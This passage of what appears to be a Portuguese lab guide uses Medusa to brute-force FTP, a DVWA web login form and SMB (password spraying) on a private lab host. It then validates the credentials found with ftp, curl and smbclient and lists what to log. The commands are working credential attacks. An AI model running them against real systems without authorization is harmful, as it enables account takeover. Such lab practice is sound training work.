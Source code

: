 ### FTP (usuários a partir de arquivo)
```bash
medusa -h 192.168.56.102 -U /home/kali/medusa-lab/wordlists/users.txt -P /home/kali/medusa-lab/wordlists/passwords-small.txt -M ftp -t 8 -f
```

### Formulário Web (DVWA)
1. Identifique a **URL** do formulário e os nomes dos campos (use Developer Tools / View Source).
2. Exemplo de execução (ajuste a URL e nomes de campos conforme sua DVWA):
```bash
medusa -h 192.168.56.102 -U /home/kali/medusa-lab/wordlists/users.txt -P /home/kali/medusa-lab/wordlists/passwords-small.txt -M http -m FORM:/dvwa/vulnerabilities/brute/:username:password -t 10 -f
```
Notas:
- O módulo pode ter nome diferente (`http`, `web-form` etc.). Use `medusa -d` para confirmar.
- Formularios com CSRF ou cookies podem requerer passos adicionais (capturar e enviar cookie/session, fornecer header customizado).

### SMB / Password spraying
```bash
medusa -h 192.168.56.102 -U /home/kali/medusa-lab/wordlists/users.txt -P /home/kali/medusa-lab/wordlists/passwords-small.txt -M smbnt -t 8 -f
```
- Se o módulo `smbnt` não existir, verifique a lista de módulos (`medusa -d`) e use o nome correto (ex.: `smb` ou `smbnt`).
- Valide acessos com `smbclient` após encontrar credenciais.

## Como validar acessos encontrados
- **FTP**: conectar com `ftp` ou `lftp` e testar login.
  ```bash
  ftp 192.168.56.102
  # informar usuário/senha
  ```
- **HTTP (DVWA)**: use `curl` para submeter o formulário e verificar resposta.
  ```bash
  curl -i -X POST -d "username=usuario&password=senha&Login=Login" http://192.168.56.102/dvwa/vulnerabilities/brute/
  ```
- **SMB**: testar com `smbclient`:
  ```bash
  smbclient -L //192.168.56.102 -U usuario%senha
  ```

## Registro e logs — o que documentar
Para cada teste, registre:
- Data e hora (ex.: `2025-10-02 14:00`)
- IP do alvo e topologia
- Wordlists usadas (caminho e tamanho)
- Comando exato do Medusa (copiar e colar)
- Trecho do output com o resultado (ex.: `SUCCESS: host 192.168.56.102 user admin password 123456`)
- Capturas de tela organizadas em `/images/`
- Logs completos (salvar com `| tee medusa_ftp.log` ou usar opção `-O` do medusa quando aplicável)
